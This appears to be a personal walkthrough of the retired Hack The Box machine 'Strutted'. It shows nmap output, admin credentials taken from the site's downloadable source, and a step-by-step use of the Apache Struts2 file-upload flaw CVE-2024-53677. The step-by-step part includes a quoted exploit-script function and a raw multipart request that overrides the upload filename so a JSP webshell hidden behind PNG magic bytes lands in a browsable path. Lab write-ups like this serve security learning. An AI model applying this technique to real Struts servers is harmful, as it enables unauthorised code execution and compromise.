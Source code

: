 This is a retired Medium machine. Doing for practice!
# Init
Starting with `nmap`:
```
┌──(truelyyours㉿kali)-[~/htb/machines/strutted]
└─$ sudo nmap -sC -sV -oA nmap/strutted 10.10.11.59
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-02 04:18 EDT
Nmap scan report for 10.10.11.59
Host is up (0.13s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://strutted.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.62 seconds
```

So, `ssh` and `http` are running.  The website is some image upload and sharing site. You can download source code too!
![[Pasted image 20250902042657.png]]

Although, after uploading the image, you cannot "Copy Shareable Link"! The README in source code does instruct that you can access the image via `http:localhost:8080/s/{id}` where `id` is some unique identifier

We do get a id and password:
```
┌──(truelyyours㉿kali)-[~/htb/machines/strutted/source_code]
└─$ cat tomcat-users.xml
<?xml version='1.0' encoding='utf-8'?>

<tomcat-users>
    <role rolename="manager-gui"/>
    <role rolename="admin-gui"/>
    <user username="admin" password="skqKY6360z!Y" roles="manager-gui,admin-gui"/>
</tomcat-users>
```

Looking at the source code, the MVC is (Apache) `Struts2` with version `6.3.0.1`.

As we can upload file, googling CVE for this version, there is [CVE-2024-53677](https://www.cve.org/CVERecord?id=CVE-2024-53677) which allows arbitrary path traversal and RCE. [POC](https://github.com/EQSTLab/CVE-2024-53677.git)

I tried the exploit in the above posts, but it does not work directly. The working of the exploit is also not straight forward. So, I look deeper into what causes the vulnerability and how can we craft our exploit. This post explains quite well: https://help.tanium.com/bundle/CVE-2024-31497/page/VERT/CVE-2024-53677/Understanding_Apache_Struts.htm.

We can have a look at the EQSTLab's exploit script. 
```python
def exploit(self) -> None:
        files = {
            'Upload': ("exploit_file.jsp", self.file_content, 'text/plain'),
            'top.UploadFileName': (None, self.path),
        }

        try:
            response = requests.post(self.url, files=files)
            print("Status Code:", response.status_code)
            print("Response Text:", response.text)
            if response.status_code == 200:
                print("File uploaded successfully.")
            else:
                print("Failed to upload file.")
        except requests.exceptions.RequestException as e:
            print(f"Request failed: {e}")
```

It upload "two" files within same request but with different "name".

So, Struts has a series of Interceptor classes that run by default, including one called the `FileUploadInterceptor`. Struts has this concept of the object graph navigation library (OGNL), which has a stack. If there are two objects on the stack, and it allows referencing some property, say `name`, and that will work down the stack looking for the first object that has that property and return that.
If a POST request triggers the `FileUploadInterceptor`, you can have other POST parameters that reference parts of that object by the OGNL stack. In practice, that looks like:
```
POST /upload.action HTTP/1.1
Host: strutted.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------257100227792270914038585987
Content-Length: 518
Origin: http://strutted.htb
DNT: 1
Connection: keep-alive
Referer: http://strutted.htb/upload.action
Cookie: JSESSIONID=B49FBC232ACDD342D2ABC2C6B7C0342D
Upgrade-Insecure-Requests: 1
Priority: u=0, i

-----------------------------257100227792270914038585987
Content-Disposition: form-data; name="upload"; filename="Screenshot_20250902_042406.png"
Content-Type: image/png

PNG

IHDR-uijhlajkdhfaljfadf af;fda
-----------------------------257100227792270914038585987
Content-Disposition: form-data; name="top.UploadFileName"

different.txt

helloworld
-----------------------------257100227792270914038585987--
```

The first form data parameter will be processed into an object by the `FileUploadInterceptor`. Then the second parameter is processed, setting the `UploadFileName` (Which an internal variable that Interceptor uses) for the top of the stack (the first parameter) to this new value. This trick allows for bypassing other rules put in place about where a file can be written, including directory traversals. This means the "filename" i.e. where file is written can be modifier. So we can modify it in such a way that it can be accessed by us via browser!
NOTE: One important thing to consider which I found after reading about custom payload, the first file upload needs to have `name=Upload` with an Upper case `U`. Otherwise this exploit does not work.
![[Pasted image 20250905175120.png]]

This portal only allows image upload. Upload any other file format fails. However, any image file with valid magic header can be uploaded even though the rest of the file is corrupted. So we can sort of embed the script inside the "PNG" file keeping the header same as PNG and providing path i.e. writing the file to a path which we can access/read.

However, we cannot access the file directly at `/uploads/[date]/[filename]`. As per the code, it actually provides us with a sharable link at endpoint `/s`.  But that link simply tries to render the file as an image (PNG in our case). We want the browser to process the file.
![[Pasted image 20250905181824.png]]

As this is java application, we store our file as `temp.jsp`.  (I had my "No Script" extension enabled so by default the `.jsp` file was not being rendered and it took some time to figure it out. Don't make the same mistake!). But as in the above mentioned path it is processed as image, so I try upload in parent folder and so on an eventually I can "read" the file i.e. render/process it on browser as a `jsp` file!

![[Pasted image 20250905185455.png]]

You can use any valid `js`
